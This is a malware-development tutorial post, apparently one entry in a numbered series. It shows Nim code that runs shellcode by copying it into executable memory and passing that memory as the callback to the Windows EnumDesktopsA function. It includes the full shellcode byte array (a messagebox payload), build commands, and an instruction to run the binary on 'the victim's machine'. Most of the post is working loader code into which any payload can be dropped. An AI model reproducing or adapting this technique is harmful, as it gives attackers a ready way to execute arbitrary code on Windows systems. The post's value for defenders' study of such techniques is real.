



\newpage
\subsection{50. malware development trick. Run payload via EnumDesktopsA. Simple Nim example.}

﷽

{width="80%"}      

This post is just checking correctness of running payload via EnumDesktopsA in Nim programming language.    

`EnumDesktopsA` function passes the name of each desktop to a callback function defined by the application:

```cpp
BOOL EnumDesktopsA(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);
```

### practical example

Just update our C code from one of the previous [posts](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) with Nim language:    

```python
import system
import winim

when isMainModule:
  let payload: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
    0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
    0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
    0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
    0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
    0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
    0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
    0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
    0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
    0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
    0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
    0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
    0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
    0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]

  let mem = VirtualAlloc(
    NULL, cast[SIZE_T](payload.len), 
    MEM_COMMIT, PAGE_EXECUTE_READWRITE
    )
  RtlMoveMemory(
    mem, 
    unsafeAddr payload[0], 
    cast[SIZE_T](payload.len)
    )
  EnumDesktopsA(
    GetProcessWindowStation(), 
    cast[DESKTOPENUMPROCA](mem), 
    cast[LPARAM](NULL)
    )
```

As usual, I used `meow-meow` messagebox payload:    

```python
let payload: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
    0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
    0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
    0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
    0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
    0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
    0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
    0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
    0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
    0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
    0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
    0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
    0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
    0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]
```

### demo

Let's check it in action. Compile it:    

```bash
nim c -d:mingw --cpu:amd64 hack.nim
```

{width="80%"}         

Then, just move it to the victim's machine (Windows 11 in my case) and run:    

```powershell
.\hack.exe
```

{width="80%"}     

As you can see, everything is worked perfectly also for Nim language =^..^=!     

[Malware development trick 20: Run shellcode via EnumDesktopsA, C example](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-06-12-malware-trick-39)    
